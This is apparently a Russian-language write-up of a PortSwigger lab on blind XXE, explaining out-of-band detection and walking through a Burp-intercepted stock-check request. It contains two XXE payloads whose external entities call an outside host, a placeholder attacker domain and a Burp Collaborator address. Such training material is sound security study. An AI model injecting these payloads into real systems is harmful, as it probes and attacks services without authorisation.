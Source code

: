 # Blind XXE with out-of-band interaction

## Theory

<h3>Обнаружение слепых XXE с использованием внеполосных (OAST) методов</h3>

Вы часто можете обнаружить слепой XXE, используя ту же технику, что и для атак XXE SSRF, но инициируя внешнее сетевое взаимодействие с системой, которую вы контролируете. Например, вы бы определили внешний объект следующим образом:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Затем вы должны использовать определенный объект в значении данных в XML.

Эта атака XXE заставляет сервер выполнять внутренний HTTP-запрос к указанному URL-адресу. Злоумышленник может отслеживать результирующий поиск DNS и HTTP-запрос и, таким образом, обнаруживать, что атака XXE прошла успешно.

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction/assets/1.png)

Выберем любой продукт.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction/assets/2.png)

Перейдем на его страницу и спустимся в самый низ.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction/assets/3.png)

Нажмем на кнопку "Check stock" и перехватим запрос. Отправляем его в Repeater.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction/assets/4.png)

Запустим Burp Collaborator Client. Скопируем DNS.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction/assets/5.png)

Модифицируем запрос. Вставляем скопированный ранее DNS. Отправляем запрос. Код экплоита:
```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://twt1qbthnub67jyf9nktnrdg2780wp.burpcollaborator.net"> ]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction/assets/6.png)

Перейдем в Burp Collaborator Client. теперь мы можем заметить результат DNS lookup.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction/assets/7.png)

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction/assets/8.png)
